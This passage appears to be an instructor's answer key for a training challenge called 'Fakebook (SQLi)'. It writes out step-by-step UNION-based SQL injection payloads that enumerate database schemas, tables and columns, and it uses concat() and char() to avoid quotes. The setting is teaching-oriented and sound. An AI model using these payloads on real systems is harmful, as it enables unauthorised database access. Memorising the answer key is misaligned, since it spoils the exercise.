 |                                      | specified special characters. |
|                                      |                               |
|                                      |  \$ asserts the end of the   |
|                                      | string.                       |
+======================================+===============================+
+--------------------------------------+-------------------------------+

**Fakebook (SQLi)\
\
[[https://excalidraw.com/#json=Zn-RxBS2t1ORriKcR7_jE,WVjmn9lMrqJqumxSnAkvcA]{.underline}](https://excalidraw.com/#json=Zn-RxBS2t1ORriKcR7_jE,WVjmn9lMrqJqumxSnAkvcA)**

This challenge is identical to the "Quote Failure" challenge in the
older version of Mimosa with the purpose being to help students
understand how to conduct an SQLi attack without using quotes. The
students are expected to use the concat() function and char() to execute
the SQL injection.

[Answer:]{.underline}

To discover the available schemas in the database:\
\
1 union select null from information_schema.tables\
//1 union select '1' from information_schema.tables

1 union select table_schema from information_schema.tables

1 union select table_name from information_schema.tables

With the available schemas, display the tables inside the schema which
is of interest (public):

1 union select table_name from information_schema.tables where
table_schema=concat(char(112),char(117),char(98),char(108),char(105),char(99))\
(public⇒ 112 117 98 108 105 99 )

Next, to find the columns can be retrieved with:

1 union select column_name from information_schema.columns where
table_name=concat(char(102),char(97),char(107),char(101),char(98),char(111),char(111),char(107))
and table_schema=
concat(char(112),char(117),char(98),char(108),char(105),char(99))

1 union select concat (column_name, char(44), table_name) from
information_schema.columns

1 union select concat (table_name, char(44), column_name) from
information_schema.columns\
\
![](media/image13.png){width="5.234375546806649in"
height="1.9921872265966754in"}

1 union select concat (table_name, char(44), column_name) from
information_schema.columns where
table_name=concat(char(102),char(97),char(107),char(101),char(98),char(111),char(111),char(107))
